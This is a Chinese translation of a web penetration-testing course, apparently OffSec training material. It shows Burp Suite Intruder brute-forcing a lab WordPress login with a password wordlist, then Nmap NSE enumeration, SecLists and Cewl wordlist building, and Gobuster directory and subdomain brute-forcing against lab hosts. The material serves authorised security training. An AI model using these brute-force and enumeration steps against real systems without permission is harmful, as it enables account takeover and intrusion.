例如，假设我们在 `http://offsecwp/wp-login.php` 上拦截了登录表单的一个参数。让我们输入用户名和密码的输入值，以便它们在拦截期间很显眼。我们将选择“admin”作为用户名。点击 Login（登录）按钮后，Burp Suite 在 Proxy 选项卡中拦截了我们的请求，如下图所示。



我们可以右键单击请求，然后选择*“发送到 Intruder”*，将拦截到的请求移动到*Intruder*选项卡中。



接下来，点击*“入侵者”*选项卡，我们会发现 Burp Suite已将请求配置为暴力破解类型的攻击，如下
所示。



如前所述，Intruder 已填充几乎所有输入源（头部除外），并将其用节符号(§) 包裹起来。我们选择的任何单词列表有效载荷都将插入到这些字符之间。

如果我们想一次性快速清除所有节符号，并指定只关注一个或两个参数，只需点击右侧的*“清除 §”*按钮 即可。清除后， 点击*“添加 §”*按钮 ，即可将其中两个字符添加到我们选择的有效载荷位置。接下来，我们以*pwd* 参数为例，尝试暴力破解管理员帐户。



现在很清楚，我们的大量密码将在暴力破解请求序列中的哪个位置放置。不过，在点击*“开始攻击”*之前，我们需要返回*“入侵者”*选项卡，然后点击*“payload(有效载荷)”*选项卡。



让我们使用下面提供的自定义小词表将词表加载到*“有效载荷”*选项卡中 。我们将在用户主目录中创建一个名为 wordlist-test.txt 的文件，用于我们的示例。

```bash
kali@kali:~$ echo -e 'somepassword \nthispasswordwontwork \nhackerelite9000 \nroses \nblueblue \ncolor \ngreengreen \npassword \nadmin \nroot \ntoor' > wordlist-test.txt
```

虽然使用 Burp Suite 社区版意味着我们的请求会被限制，但我们仍然可以利用 Intruder 进行此次攻击。我们可以将任何所需的字典文件加载到此选项卡的*“有效载荷选项 [简单列表]”*部分。在本例中，我们将使用之前提供的简短字典文件来演示 Intruder 的输出。点击*“加载...”*按钮，将我们的单词列表加载到 Burp Suite 中。



接下来，我们将选择 wordlist-test.txt 并单击“*打开”*。



确认我们选择的单词列表已加载到 Burp Suite 中后，我们可以通过单击 “入侵者”选项卡右上角的“*开始攻击”*来开始攻击。我们会收到一条弹出消息，警告我们由于使用的是 Burp Suite 社区版，请求将被限制。我们可以直接点击*“确定”*继续进行攻击。



通过仔细观察返回的响应大小，我们会发现，使用密码值为“password”的成功登录的响应大小与其他失败的尝试的响应大小不同。



攻击成功后，响应长度为 1097 个字符。密码破解后，我们现在可以登录WordPress 的管理界面。



下一节我们将讨论 Repeater——我们
用于执行 Web 应用程序评估的最重要工具之一。在 Burp Suite 中，*Repeater* [[22\]](#fn-22-75cda2e6654bb95e)就像我们在 Web 安全评估中的利剑。我们会花费大量时间使用此工具来发现漏洞，并在 有效载荷尚未通过已验证的漏洞利用程序实现的情况下，对 Web 应用程序发起攻击。

首先，我们来举个例子，演示如何向 Repeater 标签页发送请求。首先，启用拦截功能，然后打开
Firefox 浏览器并导航到目标页面，这样就能捕获到请求。在代理标签页的请求中，我们需要右键单击并选择*“发送到Repeater”*，然后点击*Repeater*标签页查看捕获到的请求。



我们的申请终于准备好进行审核和修改，如下所示。



让我们花点时间来熟悉一下Burp Suite 中的这个特定工具。在标签页的左侧，我们会看到*“请求”*面板。该面板包含我们捕获的针对 http://offsecwp/wp-login.php端点的请求。在右侧，我们会看到*“响应”*面板。目前，“响应”面板是空的。这是因为我们还没有点击左上角*“请求”面板上方的**“发送”*按钮。*“响应*”面板的工作方式与网页浏览器的*“查看源代码”*功能非常相似 ，但它会包含响应头以及响应的原始内容。 点击左上角的*“发送”*按钮后， 该面板将显示数据。

Repeater 功能允许我们对*任何*HTTP 请求进行定向更改和操作，将其发送到 Web 服务器，并查看相应的响应。这个选项卡特别有用，因为它使我们能够以 尽可能简洁的方式快速有效地测试我们的想法和有效载荷。例如，我们将单击“中继器”选项卡左上角的*“发送”*按钮 ，并记下右侧面板中的响应，如下图所示。



接下来，我们来简单介绍一下Burp Suite 中的 C+B+u 快捷键组合。我们可以在选中任何已编码的 HTTP 请求中的任意或全部文本后使用此快捷键，将其快速解码为人类可读的格式。在解码文本时，我们还可以使用Burp Suite内置的*Inspector*工具 。让我们使用以下编码字符串来演示如何使用 Inspector 工具将其解码为人类可读的格式。

```txt
%2Fsearch.php%3Fquery%3Dsample+search+query+encoded
```

我们将上面编码后的示例 URI 字符串粘贴到*“请求”*面板中，然后选中它以观察检查器工具的运行情况。输出结果会在右侧显示解码后的字符串。



如上所示，我们利用 Repeater 内置的 Inspector 工具快速解码了字符串。这是一种在 Burp Suite 中使用键盘快捷键解码字符串的实用替代方法。此外，如果我们需要解码请求的内容，我们可以使用Burp Suite 中的*解码器选项卡。*

## 2.3 Nmap 端口扫描工具

本学习单元涵盖以下学习目标：

- 理解如何执行 Nmap NSE 脚本
- 学习如何扫描特定端口

Nmap[23] 是一款免费且开源的网络扫描工具。它可用于发现特定目标机器或整个网段上的主机、服务和端口。虽然该工具以其网络扫描功能而闻名，但我们也可以将某些 Nmap 选项或标志 (flags) 与各种脚本结合使用，以便在 Web 应用程序评估期间检索有用的信息。

让我们通过一些 Nmap 实践来更好地了解它是如何工作的。

首先，我们假设我们的目标机器是 `offsecwp`，位于 172.16.80.1。

我们的第一步是使用 `export` 命令将我们的目标 IP 环境变量 (environment variable) 导出到终端中。由于我们之前编辑了 `/etc/hosts` 文件，将 IP 172.16.80.1 映射到 `offsecwp`，我们也可以指定“offsecwp”作为我们的目标。然而，通常情况下，我们将扫描直接的数字 IP 地址，因此让我们导出在线门户 (Online Portal) 中提供给我们的实际虚拟机实验室 IP。

Bash

```
kali@kali:~$ export IP="172.16.80.1"
            
kali@kali:~$ echo $IP             
172.16.80.1
```

**代码清单 4 - 导出 IP 地址环境变量**

养成导出环境变量（例如 URL 或端点）的好习惯。如果预先设置了这些环境变量，我们可以更快速地启动所需的工具。

对于我们的第一次 Nmap 扫描，让我们扫描 80 端口并检查输出。我们将向 Nmap 提供带有值 80 的 `-p` 参数，以指示我们只对扫描 80 端口感兴趣。接下来，我们有 `$IP` 参数，它是我们导出的 IP 环境变量。

Bash

```
kali@kali:~$ sudo nmap -p80 $IP
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-21 12:33 EDT
Nmap scan report for offsecwp (172.16.80.1)
Host is up (0.0010s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
80/tcp   open  http
```

**代码清单 5 - 我们的首次 Nmap 扫描**

在上面的输出中，我们注意到 80 端口是打开的，并且使用该端口提供服务的“协议”是 HTTP (web)。

接下来，我们将重新运行相同的扫描，这次加上 `-sV` 标志。这个标志是服务版本 (Service Version) 的缩写。本质上，它指示 Nmap 执行简单的横幅抓取 (banner grabs)，以尝试枚举运行在机器上的服务和服务版本。

Bash

```
kali@kali:~$ sudo nmap -p80 -sV $IP  
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-07 13:23 EDT
Nmap scan report for offsecwp (192.168.1.144)
Host is up (0.00044s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
```

**代码清单 6 - 包含服务版本的 Nmap 扫描**

我们将观察到上面输出与代码清单 4 中初始输出之间的区别。最新的输出仍然列出 80 端口是打开的，对应于 HTTP。但是，我们还检索到了 Apache 的版本，以及由 Web 服务器的 headers 泄露的目标操作系统信息。

需要注意的是，服务和 OS 信息是可以被欺骗的 (spoofed)，应该使用其他方式进行验证。

在本节中，我们将扩展对 Nmap 的理解，以了解更多关于 Nmap 脚本引擎 (Nmap Scripting Engine, NSE)[24] 的信息。正如我们将要发现的，Nmap 脚本在渗透测试期间非常有用。

Kali Linux 提供了大量被称为 NSE 脚本的脚本。它们是用 Lua 语言编写的小文件，我们可以使用它们在处理某个端口时执行各种功能。有些脚本被认为是“安全的 (safe)”，而另一些可能具有侵入性 (intrusive)。一个安全的脚本从执行到完成都不会进行任何破坏性行为。而侵入性脚本通常意味着更高的流量状况、向目标服务器写入文件，或有账户被锁定的风险（例如在进行暴力破解时）。我们将检查一些与 HTTP 协议相关的 NSE 脚本，它们都相对安全。

通过在 `/usr/share/nmap/scripts` 目录中定位它们，我们可以更好地了解 Kali Linux 上存在多少 Nmap NSE 脚本。

```bash
kali@kali:~$ cd /usr/share/nmap/scripts
                                                  
kali@kali:/usr/share/nmap/scripts$ ls -lsaht |grep -i 'http'
4.0K -rw-r--r-- 1 root root 2.2K Oct 12  2020 http-adobe-coldfusion-apsa1301.nse
8.0K -rw-r--r-- 1 root root 5.1K Oct 12  2020 http-affiliate-id.nse
4.0K -rw-r--r-- 1 root root 2.0K Oct 12  2020 http-apache-negotiation.nse
8.0K -rw-r--r-- 1 root root 4.4K Oct 12  2020 http-apache-server-status.nse
4.0K -rw-r--r-- 1 root root 1.8K Oct 12  2020 http-aspnet-debug.nse
4.0K -rw-r--r-- 1 root root 3.9K Oct 12  2020 http-auth-finder.nse
4.0K -rw-r--r-- 1 root root 3.2K Oct 12  2020 http-auth.nse
4.0K -rw-r--r-- 1 root root 2.8K Oct 12  2020 http-avaya-ipoffice-users.nse
8.0K -rw-r--r-- 1 root root 4.3K Oct 12  2020 http-awstatstotals-exec.nse
8.0K -rw-r--r-- 1 root root 6.8K Oct 12  2020 http-axis2-dir-traversal.nse
8.0K -rw-r--r-- 1 root root 5.4K Oct 12  2020 http-backup-finder.nse
8.0K -rw-r--r-- 1 root root 6.3K Oct 12  2020 http-barracuda-dir-traversal.nse
4.0K -rw-r--r-- 1 root root 2.0K Oct 12  2020 http-bigip-cookie.nse
8.0K -rw-r--r-- 1 root root 4.9K Oct 12  2020 http-brute.nse
8.0K -rw-r--r-- 1 root root 4.4K Oct 12  2020 http-cakephp-version.nse
8.0K -rw-r--r-- 1 root root 4.9K Oct 12  2020 http-chrono.nse
4.0K -rw-r--r-- 1 root root 1.7K Oct 12  2020 http-cisco-anyconnect.nse
8.0K -rw-r--r-- 1 root root 5.4K Oct 12  2020 http-coldfusion-subzero.nse
8.0K -rw-r--r-- 1 root root 4.1K Oct 12  2020 http-comments-displayer.nse
8.0K -rw-r--r-- 1 root root 7.1K Oct 12  2020 http-config-backup.nse
...

```

**代码清单 7 - HTTP Nmap NSE 脚本列表**

由于有许多 HTTP NSE 脚本需要熟悉，因此上面的终端输出被截断了。让我们通过检查几个针对 Web 的特定 NSE 脚本来深入了解。

我们可以通过在命令中提供 `--script=` 参数和一个或多个脚本名称来指示 Nmap 使用特定脚本。我们将再次运行 `nmap`，这次仅使用 `-p` 扫描 80 端口。我们还将提供 `--script` 参数以运行 `http-enum` 脚本，该脚本将搜索常见目录。

请注意，如果我们在端口 10099 上发现了一个 Web 管理端口，我们也可以指示 Nmap 在该目标 HTTP 端口上执行相同的脚本。

```bash
kali@kali:~$ sudo nmap -p80 --script=http-enum $IP
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-21 12:43 EDT
Nmap scan report for offsecwp (172.16.80.1)
Host is up (0.00062s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum:
|   /readme.html: Interesting, a readme.
|   /wp-login.php: Possible admin folder
|   /wp-includes/: Interesting, a readme.
|_  /wp-content/uploads/: Interesting, a readme.
|_  /xmlrpc.php: Interesting, a readme.
```

**代码清单 8 - 在 offsecwp 上运行 http-enum NSE 脚本**

运行这个基本的文件和目录发现脚本后，我们在 `/readme.html` 处发现了一个可能有趣的页面，并且还获取了在远程机器上运行的 WordPress 版本信息。

随着我们第一次 Nmap 脚本扫描的完成，接下来我们将检查 `http-methods`[25] 脚本。该脚本用于确定 HTTP 服务器上启用了哪些 HTTP 方法 (methods)。它是许多接受参数 (arguments) 以自定义其操作的 NSE 脚本之一。

让我们再次运行 Nmap，这次使用 `http-methods` 脚本。我们还将设置 `--script-args` 以将参数传递给该脚本。

在某些目录中（例如 Web 根目录），我们可能只能访问 HTTP 方法 GET、HEAD、POST 和 OPTIONS。

使用 `http-methods` 脚本，我们可以识别出位于指定 URI 的 Web 服务器所支持的方法。此外，我们可以使用 `--script-args http-methods.url-path='URI-HERE'` 提供特定的 URI。

```bash
kali@kali:~$ sudo nmap -p80 --script=http-methods --script-args http-methods.url-path='/wp-includes/' $IP
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-21 12:48 EDT
Nmap scan report for offsecwp (172.16.80.1)
Host is up (0.00052s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-methods:
|   Supported Methods: GET POST OPTIONS HEAD
|_  Potentially risky methods:
```

**代码清单 9 - 在 /wp-includes/ URI 上使用 http-methods NSE 脚本**

该脚本识别出，在指定的 `/wp-includes/` URI 下，运行在 80 端口上的 Web 服务器支持 GET、POST、OPTIONS 和 HEAD 方法。

在开发人员和测试环境中，可能会留下各种配置，使得我们的示例（如 `megacorpone.com/secretDirectory/`）允许使用 HTTP 的 PUT 方法。在这种情况下，PUT 方法可能会被配置为允许我们在该特定目录内向目标 Web 服务器上传 payload（有效载荷）。本质上，如果我们对某个不起眼的目录感到好奇，我们应该考虑使用 `http-methods` Nmap NSE 脚本来确定是否允许 PUT 方法。

在下一节中，我们将讨论 Wordlists（字典）、SecLists（安全字典集合）、为具体任务选择正确的字典，以及构建我们自己的字典。

既然我们知道目标 (`http://offsecwp:80/`) 正在运行 WordPress，我们还可以使用 `http-wordpress-enum` Nmap NSE 脚本。该脚本将帮助我们枚举 (enumerating) 目标 WordPress 机器上存在的插件 (plugins) 和主题 (themes)。

```bash
kali@kali:~$ nmap -p80 -sV --script http-wordpress-enum offsecwp
Starting Nmap 7.91 ( https://nmap.org ) 
Nmap scan report for offsecwp (192.168.1.144)
Host is up (0.00061s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-wordpress-enum: 
| Search limited to top 100 themes/plugins
|   plugins
|_    akismet
...

```

**列表 10 - 使用 http-wordpress-enum Nmap NSE 脚本**

上面我们发现了一个名为*akismet*的流行插件，这意味着Nmap NSE 脚本正在按预期运行。

Nmap NSE 脚本数量众多，无法在一节中全部介绍。我们建议您深入研究所有 http-* NSE 脚本，了解它们在进行 Web 评估时的作用。

在目标 offsecwp 机器上运行以下 Nmap NSE 脚本。

```txt
--script=http-methods,http-ls,http-robots.txt,http-cookie-flags,http-cors

```

**列表 11 - 一些特别精选的 Nmap NSE HTTP 脚本。**

如前所述，Nmap NSE 脚本数量众多，无法在一节中全部介绍。但是，其中哪些脚本可能有助于从目标服务器检索标头信息呢？

## 2.4 字典文件

本学习单元涵盖以下学习目标：

- 深入理解字典 (wordlist) 的概念
- 了解如何尝试为我们的场景选择最佳的字典
- 学习构建我们自己的字典所需的基础知识

作为一名入侵者 (intruder)，字典 (wordlist) 是我们最有价值的工具之一。我们将使用字典来自动发现漏洞、对各种协议的登录进行暴力破解 (brute forcing)、恢复（破解）从数据库和配置文件中提取的密码哈希 (password hashes) 等等。毫不夸张地说，为特定任务选择正确的字典将使过程变得更加容易和高效。

在执行有针对性的枚举 (enumeration) 或模糊测试 (fuzzing) 时，使用适合该工作的字典至关重要。我们可以为此使用 SecLists[26] 软件包。正如其项目页面所述，SecLists 是“安全测试人员的伴侣”。它是一个庞大的密码、用户名和 payload（有效载荷）存储库，这些内容在过去都取得过成功的结果。自然，如果我们不熟悉 SecLists，那将是我们的损失。

在继续前进之前，让我们先确保我们的系统上已正确安装了 SecLists。

```bash
kali@kali:~$ sudo apt-get install -y seclists
[sudo] password for kali: 
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
The following NEW packages will be installed:
  seclists
...

kali@kali:~$ cd /usr/share/seclists/

kali@kali:/usr/share/seclists$ ls -lsa
total 56
 4 drwxr-xr-x  11 root root  4096 Oct  9 22:01 .
12 drwxr-xr-x 321 root root 12288 Oct  9 22:01 ..
 4 drwxr-xr-x   9 root root  4096 Oct  9 22:01 Discovery
 4 drwxr-xr-x   8 root root  4096 Oct  9 22:01 Fuzzing
 4 drwxr-xr-x   2 root root  4096 Oct  9 22:01 IOCs
 4 drwxr-xr-x   5 root root  4096 Oct  9 22:01 Miscellaneous
 4 drwxr-xr-x  12 root root  4096 Oct  9 22:01 Passwords
 4 drwxr-xr-x   3 root root  4096 Oct  9 22:01 Pattern-Matching
 4 drwxr-xr-x   9 root root  4096 Oct  9 22:01 Payloads
 4 -rw-r--r--   1 root root  2010 Aug 27 17:31 README.md
 4 drwxr-xr-x   4 root root  4096 Oct  9 22:01 Usernames
 4 drwxr-xr-x  10 root root  4096 Oct  9 22:01 Web-Shells

```

**代码清单 12 - 安装 Seclists**

下面的输出显示了几个目录，其中包含我们可以使用的各种字典。如果我们正在执行模糊测试 (fuzzing)，我们可以使用 `/usr/share/seclists` 目录。对于密码恢复，我们可以将 `/usr/share/wordlists/rockyou.txt` 与 `/usr/share/seclists/Passwords` 中的字典结合使用。熟悉这些目录以及它们如何协助我们，对于我们在评估 Web 应用程序时取得成功至关重要。

```bash
kali@kali:~$ cd /usr/share/seclists/
                                                 
kali@kali:/usr/share/seclists/$ ls -lsaht
total 96K
4.0K drwxr-xr-x  8 root root 4.0K Jun  7 11:24 .git
4.0K drwxr-xr-x 12 root root 4.0K Jun  7 11:24 .
4.0K drwxr-xr-x 10 root root 4.0K Jun  7 11:24 Web-Shells
4.0K drwxr-xr-x  4 root root 4.0K Jun  7 11:24 Usernames
4.0K drwxr-xr-x  9 root root 4.0K Jun  7 11:24 Payloads
4.0K -rw-r--r--  1 root root 2.0K Jun  7 11:24 README.md
4.0K drwxr-xr-x  3 root root 4.0K Jun  7 11:24 Pattern-Matching
4.0K drwxr-xr-x 12 root root 4.0K Jun  7 11:24 Passwords
4.0K drwxr-xr-x  5 root root 4.0K Jun  7 11:24 Miscellaneous
4.0K drwxr-xr-x  8 root root 4.0K Jun  7 11:24 Fuzzing
4.0K drwxr-xr-x  2 root root 4.0K Jun  7 11:24 IOCs
4.0K -rw-r--r--  1 root root 1.1K Jun  7 11:24 LICENSE
4.0K drwxr-xr-x  9 root root 4.0K Jun  7 11:24 Discovery
4.0K -rw-r--r--  1 root root  522 Jun  7 11:24 CONTRIBUTING.md
 28K -rw-r--r--  1 root root  27K Jun  7 11:24 CONTRIBUTORS.md
4.0K -rw-r--r--  1 root root   47 Jun  7 11:24 .gitattributes
4.0K -rw-r--r--  1 root root   35 Jun  7 11:24 .gitignore
4.0K drwxr-xr-x  3 root root 4.0K Jun  7 11:23 ..

```

**代码清单 13 - SecLists**

SecLists 是一个强大的仓库，包含了我们在攻击 Web 层面进行发现阶段 (discovery phase) 时可以使用的、有针对性且经过验证的单词和 payload。花时间调查这些列表、记录可用的 payload 并熟悉它们是非常值得的。

在某些场景下，我们可能需要开发自定义字典。假设我们的任务是评估 `example.com` 域名的 Web 应用程序。在评估期间，假设我们遇到大量该组织公开披露的数据：从员工的姓名到项目名称，甚至包括常用的组织缩写。我们可以利用各种 Kali Linux 工具，使用这些数据来创建自定义内容。

我们首先来看看 Cewl[27]，这是 Kali Linux 上提供的一个字典生成工具。我们可以使用此工具，从我们指定的 URL 的内容中创建自定义字典。让我们从查看 Cewl 的帮助输出开始。

```bash
kali@kali:~$ which cewl
/usr/bin/cewl
                                                             
kali@kali:~$ cewl --help
CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
Usage: cewl [OPTIONS] ... <url>

    OPTIONS:
        -h, --help: Show help.
        -k, --keep: Keep the downloaded file.
        -d <x>,--depth <x>: Depth to spider to, default 2.
        -m, --min_word_length: Minimum word length, default 3.
        -o, --offsite: Let the spider visit other sites.
        --exclude: A file containing a list of paths to exclude
        --allowed: A regex pattern that path must match to be followed
        -w, --write: Write the output to the file.
        -u, --ua <agent>: User agent to send.
        -n, --no-words: Don't output the wordlist.
        --lowercase: Lowercase all parsed words
        --with-numbers: Accept words with numbers in as well as just letters
        --convert-umlauts: Convert common ISO-8859-1 (Latin-1) umlauts (ä-ae, ö-oe, ü-ue, ß-ss)
        -a, --meta: include meta data.
        --meta_file file: Output file for meta data.
        -e, --email: Include email addresses.
        --email_file <file>: Output file for email addresses.
        --meta-temp-dir <dir>: The temporary directory used by exiftool when parsing files, default /tmp.
        -c, --count: Show the count for each word found.
        -v, --verbose: Verbose.
        --debug: Extra debug information.

        Authentication
        --auth_type: Digest or basic.
        --auth_user: Authentication username.
        --auth_pass: Authentication password.
        Proxy Support
        --proxy_host: Proxy host.
        --proxy_port: Proxy port, default 8080.
        --proxy_username: Username for proxy, if required.
        --proxy_password: Password for proxy, if required.

        Headers
        --header, -H: In format name:value - can pass multiple.
    <url>: The site to spider.


```

**代码清单 14 - Cewl 帮助页面**

上面的输出突出显示了几个参数以供进一步检查。我们可以使用 `-d` (depth，深度) 参数告诉 Cewl 我们希望它爬取 (crawl) 或蜘蛛 (spider) 的深度。我们还可以使用 `-m` 参数指定我们要为字典生成的最小单词长度。例如，提供 `-m 5` 表示 Cewl 应生成长度不少于 5 个字符的字典。最后，`-w` (write，写入) 参数指示 Cewl 将字典输出到我们在攻击机 (attacking machine) 上选择的目标位置。

让我们使用 Cewl 生成我们的第一个字典。在这个例子中，我们将以 `www.MegaCorpOne.com` 为目标。

```bash
kali@kali:~$ sudo cewl -d 2 -m 5 -w ourWordlist.txt www.MegaCorpOne.com
CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)

kali@kali:~$ ls -lsa ourWordlist.txt
4 -rw-r--r-- 1 root root 2788 Oct  9 23:24 ourWordlist.txt

```

让我们回顾一下我们的一些输出结果。

```bash
kali@kali:~$ cat ourWordlist.txt
MegaCorp
megacorpone
technology
Email
Contact
Bootstrap
SUPPORT
CAREERS
nanotechnology
company
About
CONTACT
Sheer
ABOUT
Security
Rachel
United
States
Custom
styles
template
debugging
purposes
actually
Fixed
navbar
Toggle
navigation
collapse
future
bleeding
technologies
available
being
working
Systems
Based
behind
FOOTER
rights
reserved
...

```

太棒了！我们利用端点内容生成了
自己的字典。当然，我们可以将此字典用于更有针对性的
暴力破解攻击。

在结束本节之前，让我们探讨另一种自定义单词列表的方法，因为我们的单词列表并非总是由Cewl 之类的工具生成的。假设我们已经在目标机器上成功执行了代码，并且想要创建自己的单词列表。

我们可以根据自己的机器，使用下面的命令创建自己的可执行二进制文件字典，从而创建一个模板。在这个命令中，我们使用`ls -sa` 列出 Kali Linux 虚拟机上所有可能的二进制文件。

接下来，我们使用 `sed` 命令删除每个二进制文件的数字编号。这将输出所有存在的二进制文件。但是，我们会注意到其中存在很多空格问题。我们可以再次使用 sed 命令来删除多余的空格。

最后，为了确保没有重复值，我们可以将所有输出通过管道传递给 sort 命令，并使用参数 -u 指定我们只想要唯一结果。当然，我们希望保存输出，因此使用大于号 (>) 将所有输出通过管道传递给binaries-wordlist.txt 文件。

```bash
kali@kali:~$ ls -sa /usr/bin | sed 's/[0-9]*//g' | sed -r 's/\s+//g' |sort -u > $HOME/binaries-wordlist.txt

```

我们可以使用包含数百个二进制文件的字典，通过
访问 http://execsandbox:80/ 上的目标机器，来枚举
其 bin 目录中存在的二进制文件。自定义单词列表部分到此结束。创建自定义单词列表的可能性无穷无尽，了解如何创建它们通常会让破解登录信息变得更加容易。

为了继续练习本节涵盖的概念，我们可以使用我们创建的字典来枚举位于在线门户的 http://execsandbox:80/ 上的目标执行沙箱机器上的所有二进制文件。

## 2.5 Gobuster 目录爆破工具

本学习单元涵盖以下学习目标：

- 加深我们对 Gobuster 工具的理解
- 理解端点发现 (Endpoint Discovery) 的概念
- 学习如何使用 Gobuster 查找子域名 (Sub Domains)

Gobuster 是另一个可以在渗透测试 (penetration testing) 期间帮助我们的工具。它使用字典 (wordlist) 来查找服务器上的目录和文件。虽然 Gobuster 对于 Web 服务器枚举 (enumeration) 很有用，但它会为字典中的每个项目向服务器发送一个请求，这在流量方面可能会有些嘈杂 (noisy)。

如果我们的 Kali Linux 机器上尚未存在 Gobuster，我们可以使用 `apt` 来安装它。

```bash
kali@kali:~$ sudo apt install -y gobuster
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
The following NEW packages will be installed:
  gobuster
...
```

**代码清单 19 - Gobuster 的快速安装**

安装完成后，让我们使用 `--help` 标志运行 `gobuster`，以开始熟悉该工具的选项。

```bash
kali@kali:~$ gobuster --help
Usage:
  gobuster [command]

Available Commands:
  dir         Uses directory/file enumeration mode
  dns         Uses DNS subdomain enumeration mode
  fuzz        Uses fuzzing mode
  help        Help about any command
  s3          Uses aws bucket enumeration mode
  version     shows the current version
  vhost       Uses VHOST enumeration mode

Flags:
      --delay duration    Time each thread waits between requests (e.g. 1500ms)
  -h, --help              help for gobuster
      --no-error          Don't display errors
  -z, --no-progress       Don't display progress
  -o, --output string     Output file to write results to (defaults to stdout)
  -p, --pattern string    File containing replacement patterns
  -q, --quiet             Don't print the banner and other noise
  -t, --threads int       Number of concurrent threads (default 10)
  -v, --verbose           Verbose output (errors)
  -w, --wordlist string   Path to the wordlist

Use "gobuster [command] --help" for more information about a command.

```

**代码清单 20 - 检查 Gobuster 的帮助信息**

在我们在回顾其中一些命令和标志之前，我们需要导出我们的环境变量 (environment variables)。

让我们导出一个 URL 环境变量以作为 Gobuster 的目标。

```bash
kali@kali:~$ export URL="http://offsecwp:80/"

kali@kali:~$ echo $URL
http://offsecwp:80/

```

**代码清单 21 - 设置我们的环境变量**

设置好环境变量后，我们就可以准备使用 Gobuster 发现一些端点 (endpoints) 了。

让我们练习使用 Gobuster 来发现文件和目录端点。我们将设置 `dir` 作为我们用于目录和文件枚举的模式，`-w` 指定我们的字典，`-t` 表示仅使用 5 个线程 (threads) 运行扫描。我们还将提供参数 `-b 301` 作为状态码阻止列表 (status-code blocklist)，以便我们的尝试不会被重定向 (redirects) 中断。对于此示例，我们将使用 Kali Linux 上的 `/usr/share/wordlists/dirb/common.txt` 字典。

```bash
kali@kali:~$ gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt -t 5 -b 301
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://offsecwp:80/
[+] Method:                  GET
[+] Threads:                 5
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   301
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/09/07 17:19:44 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 273]
/.htaccess            (Status: 403) [Size: 273]
/.htpasswd            (Status: 403) [Size: 273]
/server-status        (Status: 403) [Size: 273]
/xmlrpc.php           (Status: 405) [Size: 42] 
...

```

**代码清单 22 - 使用 GoBuster 进行爆破的示例**

Gobuster 使用 `common.txt` 字典仅扫描了少量资源。这是因为我们使用了 `-b` 参数将响应代码 301 列入黑名单，这是一种通常表示请求的资源被设置为永久重定向 (permanent redirect) 的 HTTP 状态。该输出进一步证实了该工具的基本实用性，这对我们在后面的部分中将至关重要。在下一个学习单元中，我们将学习如何使用 Wfuzz 和 SecLists 取得更具有攻击性的结果。

在执行 Web 评估和参与任务时，根据客户组织的不同，我们有时可能会面对将整个域名作为范围 (scope) 的情况。针对目标范围更明确的情况，我们也来介绍一下子域名发现 (subdomain discovery) 的方法论。

> 在爆破子域名之前，请务必与利益相关者 (stakeholders) 和高级信息安全官员进行核实，以确保它们在允许的范围内。

对于 `megacorpone.com` 域名，一个示例的子域名可能是 `mail.megacorpone.com`。在我们的测试期间，我们可以使用 `-d` 参数来指定该子域名。

```bash
kali@kali:~$ gobuster dns -d megacorpone.com -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 30

```

既然我们已经对 Gobuster 进行了基本的概述，那么在实验室中更熟悉这个工具，通过--help 菜单进行实验，进一步提高我们的技能，将会是明智之举。

## 2.6 Wfuzz 模糊测试工具

本学习单元涵盖以下学习目标：

- 学习如何使用 Wfuzz 发现文件 (files)
- 了解如何使用 Wfuzz 查找目录 (directories)
- 理解如何使用 Wfuzz 发现参数 (parameters)
- 学习如何利用 Wfuzz 对参数进行模糊测试 (fuzz)
- 培养使用 Wfuzz 对 POST 数据 (POST data) 进行模糊测试的技能

我们要检查的下一个工具是 Wfuzz，它可以为测试 Web 层面的输入点提供极佳的覆盖率。

首先，让我们来了解模糊测试 (fuzzing) 这个术语。模糊测试是一种技术，它涉及以输入的形式向应用程序或服务发送大量有效 (valid) 和无效 (invalid) 数据。模糊测试器 (fuzzer) 是一种执行这种输入测试的自动化软件形式。

向目标服务发送有效和无效数据背后的想法是，我们不必担心我们的字典 (wordlists) 是否有效。我们使用的字典有时会起作用，有时则不会——但无论如何，模糊测试都可以作为一种初级的自动化漏洞测试形式。例如，如果我们想测试一个参数 (parameter) 的输入净化 (input sanitization) 情况，模糊测试非常合适，因为我们可以测试我们选择的多个 payload（有效载荷）。

让我们以 Web 应用程序和 Web 服务器为目标，使用 Wfuzz 来体验模糊测试。首先，我们将使用 `--help` 选项运行 `wfuzz`。[28]

```bash
kali@kali:~$ wfuzz --help
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
*                                                      *
* Version up to 1.4c coded by:                         *
* Christian Martorella (cmartorella@edge-security.com) *
* Carlos del ojo (deepbit@gmail.com)                   *
*                                                      *
* Version 1.4d to 3.1.0 coded by:                      *
* Xavier Mendez (xmendez@edge-security.com)            *
********************************************************

Usage:  Wfuzz [options] -z payload,params <url>

        FUZZ, ..., FUZnZ  wherever you put these keywords Wfuzz will replace them with the values of the specified payload.
        FUZZ{baseline_value} FUZZ will be replaced by baseline_value. It will be the first request performed and could be used as a base for filtering.


Options:
        -h/--help                 : This help
        --help                    : Advanced help
        --filter-help             : Filter language specification
        --version                 : Wfuzz version details
        -e <type>                 : List of available encoders/payloads/iterators/printers/scripts

        --recipe <filename>       : Reads options from a recipe. Repeat for various recipes.
        --dump-recipe <filename>  : Prints current options as a recipe
        --oF <filename>           : Saves fuzz results to a file. These can be consumed later using the Wfuzz payload.

